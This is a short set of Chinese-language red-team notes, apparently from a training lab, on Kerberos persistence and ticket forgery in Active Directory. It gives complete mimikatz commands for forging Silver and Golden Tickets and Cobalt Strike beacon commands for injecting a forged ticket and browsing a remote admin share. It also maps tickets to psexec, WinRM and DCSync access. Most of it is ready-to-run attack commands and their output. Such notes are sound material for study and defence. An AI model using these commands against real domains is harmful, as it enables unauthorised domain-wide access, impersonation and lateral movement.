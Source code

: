 **除非重新启动域控制器，否则无法删除万能密钥。万能钥匙可能引起一些复制问题（replication issues）**

# Silver Tickets

银票可以访问一台机器的一个服务，或者一台机器的任何服务

Silver Ticket 是伪造的 TGS

需要的哈希：RC4或者AES keys

制作银票
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
```

参数解释
- /user is the username to impersonate.
- /domain is the current domain name.
- /sid is the current domain SID.
- /target is the target machine.
- /aes256 is the AES256 key for the target machine.
- /ticket is the filename to save the ticket as.

导入银票到当前session
```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin

...
```


下面是一些访问技术与票据的组合
1. psexec				CIFS
2. winrm				HOST & HTTP
3. dcsync (DCs only)	LDAP


# Golden Tickets

金票可以访问任何机器的任何服务

需要```krbtgt```的NTLM/AES信息

制作金票
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
```
